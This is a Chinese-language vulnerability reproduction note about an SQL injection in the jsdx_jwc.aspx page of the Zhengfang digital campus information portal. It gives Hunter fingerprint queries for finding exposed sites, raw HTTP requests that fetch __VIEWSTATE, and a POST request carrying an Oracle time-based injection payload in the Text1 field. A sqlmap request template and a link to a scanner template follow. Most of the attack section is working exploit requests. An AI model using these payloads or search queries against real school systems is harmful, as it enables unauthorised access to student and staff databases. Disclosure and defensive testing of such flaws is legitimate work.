




# 一、漏洞简介
正方数字化校园信息门户平台通过对校园现有的各种系统和资源的有效集成整合，以门户的形式为学校教师、学生提供其所需的各种信息与服务，来提高校园核心竞争力，是数字化校园的重要组成部分。正方数字化校园平台jsdx_jwc存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ hunter`(web.title="正方数字化校园信息门户"||web.title="数字化校园信息门户"||web.title="统一身份认证中心")&&web.body="正方"`、`web.body="zfca/login"&&web.body="login_bg"`
+ 特征



# 四、漏洞复现
1. 获取`__VIEWSTATE`

```plain
GET /jsdx_jwc.aspx?url=js_jxrw.aspx&usertype=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```



2. 使用获取的`__VIEWSTATE`替换测试注入

```plain
POST /jsdx_jwc.aspx?url=js_jxrw.aspx&usertype=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: ASP.NET_SessionId=y40w2d454fi1155532uqfx45
Content-Length: 132

__VIEWSTATE=dDw1ODA1MTY0Nzs7PuxuvqiSIrs3wcYFy1qakqRKiR1M&__VIEWSTATEGENERATOR=&Text1=123%27+AND+1655%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%28107%29%7C%7CCHR%28103%29%7C%7CCHR%2877%29%7C%7CCHR%2890%29%2C5%29+AND+%27nBHe%27%3D%27nBHe&Text2=admin&Button1=%E7%99%BB %E5%BD%95
```



sqlmap

```plain
POST /jsdx_jwc.aspx?url=js_jxrw.aspx&usertype=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: ASP.NET_SessionId=y40w2d454fi1155532uqfx45
Content-Length: 128

__VIEWSTATE=dDw1ODA1MTY0Nzs7PuxuvqiSIrs3wcYFy1qakqRKiR1M&__VIEWSTATEGENERATOR=&Text1=123&Text2=admin&Button1=%E7%99%BB+%E5%BD%95
```



[zfca-jsdx_jwc-sqli.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/29512878/1729561112407-ee632087-0402-4bee-9164-9dfa9c555c17.yaml)

